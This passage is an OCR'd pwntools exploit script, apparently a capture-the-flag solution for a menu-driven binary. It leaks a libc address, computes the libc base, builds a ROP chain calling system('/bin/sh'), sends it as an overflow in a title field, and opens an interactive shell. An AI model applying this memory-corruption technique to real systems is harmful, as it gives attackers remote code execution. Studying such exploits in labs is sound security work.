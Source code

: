 ```python

# Capture height (the leak!)
data = p.recvuntil(b'): ')
leaked = int(data.split(b'current: ')[-1].split(b')')[0])

# Calculate libc base
libc_base = leaked - 0x21aaa0

log.success(f"Leaked: {hex(leaked)}")
log.success(f"Libc base: {hex(libc_base)}")

# Validate
if not (0x7f0000000000 < libc_base < 0x800000000000):
    log.error("Invalid libc base!")
    exit(1)

# Complete the edit
p.sendline(b'1')  # height
p.sendlineafter(b'): ', b'1')  # url
p.sendlineafter(b'): ', b'1')  # title

# ========== STAGE 2: EXPLOIT ==========
log.info("Stage 2: Building ROP chain")

# Set libc base
libc.address = libc_base

# Build ROP chain (pwntools method)
rop = ROP(libc)
rop.raw(rop.find_gadget(['ret'])[0])  # Stack alignment
rop.call('system', [next(libc.search(b'/bin/sh\x00'))])

log.info(f"ROP chain: {rop.chain().hex()}")

# Trigger the exploit via area 18
p.sendlineafter(b'choice: ', b'3')
p.sendlineafter(b'edit', b'18')

# Fill in coordinates (doesn't matter)
for _ in range(4):
    p.sendlineafter(b'): ', b'1')

# Fill in URL
p.sendlineafter(b'): ', b'http://pwned.com')

# Send payload in title field
payload = b'A' * 200 + rop.chain()
p.sendlineafter(b'): ', payload)

# Exit to trigger ROP chain
p.sendlineafter(b'choice: ', b'5')

log.success("Exploit complete! Enjoy your shell!")

# Interact with shell
p.interactive()
```

---